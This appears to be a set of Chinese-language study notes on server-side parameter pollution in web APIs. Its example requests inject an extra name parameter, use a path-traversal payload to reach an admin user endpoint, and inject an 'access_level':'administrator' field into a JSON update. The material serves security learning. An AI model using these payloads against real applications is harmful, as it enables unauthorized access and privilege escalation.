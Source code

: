 当我们在url中请求搜索这个的时候
```
GET /userSearch?name=peter%26name=carlos&back=/home
```
为了拿到用户name用户的资料,服务器需要对他的内部api发送查询
```
GET /users/search?name=peter&name=carlos&publicProfile=true
```
PHP 只解析最后一个参数。这会导致用户搜索 carlos
ASP.NET 将参数合并。这可能导致用户搜索 peter,carlos ，从而引发 Invalid username 错误信息。
Node.js / Express 仅解析第一个参数。这会导致用户搜索 peter 时，结果保持不变。

# restful api


## 服务器端参数污染
RESTful API 可以将参数名称和值放置在 URL 路径中，而不是查询字符串中。例如，考虑以下路径：
```
/api/users/123
```
这个路径可能可以分为：
/api是根api端点
/users代表一个资源
/123代表一个参数(这里是一个特定用户的标识符)

ex.
当我们在客户端
```
GET /edit_profile.php?name=peter
```
需要服务器端进行内部请求
```
GET /api/private/users/peter
```
这个我们是抓不到包的，这是服务器与后端系统之间的通信
假如我们
```
GET /edit_profile.php?name=peter%2f..%2fadmin
```
会导致服务器端请求
```
GET /api/private/users/peter/../admin
```
如果服务器端客户端或后端 API 对此路径进行规范化，它可能解析为 /api/private/users/admin

ex.
测试结构化数据格式中的服务器端参数污染
请求
```
POST /myaccount
name=peter
```
导致
```
PATCH /users/7312/update
{"name":"peter"}
```
恶意请求
```
POST /myaccount
name=peter","access_level":"administrator
```
导致
```
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```